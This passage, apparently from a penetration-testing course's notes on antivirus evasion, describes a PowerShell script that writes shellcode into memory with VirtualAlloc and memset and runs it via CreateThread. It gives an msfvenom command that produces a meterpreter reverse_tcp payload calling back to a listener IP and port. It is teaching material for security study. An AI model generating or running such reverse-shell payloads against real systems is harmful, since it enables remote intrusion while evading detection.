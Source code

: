   ![Picture](../17.%20Antivirus%20Evasion/Image/4.png)
  - The script then allocates a block of memory using VirtualAlloc, takes each byte of the payload stored in the $sc byte array, and writes it to our newly allocated memory block using memset.
  ![Picture](../17.%20Antivirus%20Evasion/Image/5.png)
  - As a final step, our in-memory written payload is executed in a separate thread using CreateThread.
  ![Picture](../17.%20Antivirus%20Evasion/Image/6.png)
- Now we begin create a shellcode that will be injected into the powershell.exe process. 
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.50.156 LPORT=4444 -f powershell
  ```
  ![Picture](../17.%20Antivirus%20Evasion/Image/7.png)
- The resulting output can be copied to the final script after renaming the $buf variable from 
msfvenom $sc, as required by the script. Our complete script looks like the following.